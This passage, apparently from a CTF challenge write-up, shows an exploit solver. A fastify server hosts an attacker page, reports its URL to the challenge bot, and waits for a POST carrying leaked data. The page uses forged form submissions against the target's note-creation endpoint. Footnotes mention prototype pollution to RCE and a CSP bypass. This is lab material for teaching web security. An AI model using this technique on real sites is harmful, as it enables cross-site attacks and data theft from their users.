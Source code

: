```javascript
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({
      url,
    }),
  }).then((r) => r.text());
  console.log(res); // "Received :)"
};

const start = async () => {
  fastify.get("/", async (req, reply) => {
    const html = await fs.readFile("index.html");
    return reply.type("text/html; charset=utf-8").send(html);
  });

  fastify.post("/", async (req, reply) => {
    console.log(req.body);
    process.exit(0);
  });

  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) fail(err.toString());

      await sleep(3 * 1000);
      await reportUrl(
        `${ATTACK_BASE_URL}?${new URLSearchParams({
          baseUrl: "http://localhost:3000",
        })}`
      );

      await sleep(20 * 1000);
      fail("Failed");
    }
  );
};
start();
```

`index.html`:
```html
<body>
  <script>
    const params = new URLSearchParams(location.search);
    const baseUrl = params.get("baseUrl");

    const sleep = async (msec) =>
      new Promise((resolve) => setTimeout(resolve, msec));

    const createNote = (note) => {
      const innerHtml = `
        <form action="${baseUrl}/api/notes/create" method="post" target="_blank">
          <input type="text" name="note">
        </form>
      `;
      document.body.innerHTML += innerHtml;
      const form = document.forms[document.forms.length - 1];
      form.note.value = note;
      form.submit();
    };

```

[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br>ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br>E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br>ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell